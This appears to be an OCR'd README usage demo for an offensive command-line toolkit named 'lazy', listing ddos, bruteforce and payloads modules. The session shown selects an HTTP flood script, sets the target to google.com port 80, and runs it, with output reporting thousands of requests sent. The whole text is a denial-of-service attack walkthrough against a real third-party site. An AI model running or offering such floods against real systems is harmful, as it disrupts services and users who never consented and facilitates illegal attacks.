 # (print available modules)>> lazy# modules

[1]     ddos

[2]     bruteforce

[3]     payloads

# (select module to use [by number])>> lazy# use 1

# (print available scripts for the modules)>> lazy/ddos# scripts

[+]flood/http

[+]flood/tcp

[+]flood/udp

# (select script to use)>> lazy/ddos# set_script flood/http

# (print options for selected script)>> lazy/ddos/flood/http# options

Options:

host .... target to attack

port .... port to target

# (defining the values for options) {

lazy/ddos/flood/http# set host = google.com

lazy/ddos/flood/http# set port = 80

# (info)>>lazy/ddos/flood/http# info
ddos/flood/http:
[+] host = google.com

[+] port = 80

# (starting the script)>> lazy/ddos/flood/http# run

[+] Sending request 15300 to google.com:80^C

lazy/ddos/flood/http# back

lazy#
